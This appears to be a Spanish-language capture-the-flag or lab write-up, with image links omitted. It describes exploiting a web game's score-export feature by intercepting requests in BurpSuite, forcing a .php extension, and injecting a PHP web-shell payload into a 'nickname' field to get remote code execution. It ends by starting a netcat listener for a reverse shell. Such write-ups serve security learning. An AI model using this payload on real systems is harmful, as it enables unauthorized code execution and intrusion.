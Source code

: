 ![[Pasted image 20231104135020.png]]

![[Pasted image 20231104135154.png]]

Interceptamos la petición cuando exportamos con BurpSuite para ver como viaja.

![[Pasted image 20231104135313.png]]

Al ver esto, lo primero qué se me ocurre es modificar el txt por .php y ver sí logro exportarlo así.

![[Pasted image 20231104135354.png]]

Y hemos logrado expórtalo perfectamente con el **.php**

De primera se me ocurre llevar a cabo un **RCE** tratando de cargar una instrucción maliciosa en unos de los campos **click** o **level** a la hora de guardar, pero no me funcionó, indagando más en el código fuente, encontré en **"authenticate.php"** qué existe un campo llamado "nickname"

![[Pasted image 20231104135912.png]]

Qué de primera a la hora de guardar no nos aparecería, pero forzaremos a que esté con un código malicioso PHP, tal que así:

![[Pasted image 20231104140400.png]]
```
&nickname=<%3fphp+system($_GET['cmd'])+%3f>
```

de forma qué, sí podemos guardar qué el campo "**nickname**" valga esto, a la hora de exportar los top's player en formato **.php**, se interpretará el código malicioso de **nickname**, de forma qué podemos controlar en la **URL** el comando que queramos ejecutar.

![[Pasted image 20231104140557.png]]

Nos lo ha aceptado, por ende podríamos nuevamente tratar de exportar los topplayer's cambiando la extensión a **.PHP** y ver sí nos lo interpreta.

![[Pasted image 20231104141421.png]]

No nos está saliendo la exportación clásica, por lo qué nos da a entender que está interpretando el **PHP**, ahora jugamos en la URL con:

```
?cmd=cmd_a_ejecutar
```

Para ejecutar comandos, como vemos:

![[Pasted image 20231104141618.png]]

Hemos logrado hacer el RCE, por lo qué ahora podemos llevar a cabo un **Reverse Shell** con el one liner clásico, pero antes debemos estar en escucha en nuestra máquina local.

```bash
nc -nlvp 443
```
